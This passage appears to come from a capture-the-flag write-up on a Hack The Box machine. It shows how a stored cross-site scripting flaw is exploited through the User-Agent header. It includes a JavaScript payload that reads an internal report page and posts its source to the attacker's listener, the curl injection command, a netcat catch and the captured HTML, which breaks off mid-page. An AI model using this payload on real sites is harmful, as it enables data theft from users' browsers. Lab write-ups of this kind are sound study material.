 

    var fetch_req = new XMLHttpRequest();
    fetch_req.onreadystatechange = function() {
        if(fetch_req.readyState == XMLHttpRequest.DONE) {
            var exfil_req = new XMLHttpRequest();
            exfil_req.open("POST", "http://10.10.14.11:3000", false);
            exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
        }
    };
    fetch_req.open("GET", "http://gym-club.crossfit.htb/security_threat/report.php", false);
    fetch_req.send();



I'll need to send it back to a different port from where I'm hosting
this payload using Python HTTP Server (since it won't accept POSTs or
show the body), so I'll setup `nc` on port 3000 to catch that.

I'll run the attack:



    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/threat_report.js"></script>'
    ...[snip]...



The request hits Python:



    10.10.10.208 - - [22/Jan/2021 17:56:27] "GET /threat_report.js HTTP/1.1" 200 -



And then reached `nc`:



    root@kali# nc -lnkp 3000
    POST / HTTP/1.1
    Host: 10.10.14.11:3000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://gym-club.crossfit.htb/security_threat/report.php
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 371
    Origin: http://gym-club.crossfit.htb
    Connection: keep-alive

    Resp Code: 200
    Page Source:
    <!DOCTYPE.md>
    .md>
    <head>
      <title>Security Report</title>
      <style>
        table, th, td {
          border: 1px solid black;
        }
      </style>
    </head>
    <body>
    <h4>Logged XSS attempts</h4>
    <table>
      <thead>
        <tr>
          <td>Timestamp</td>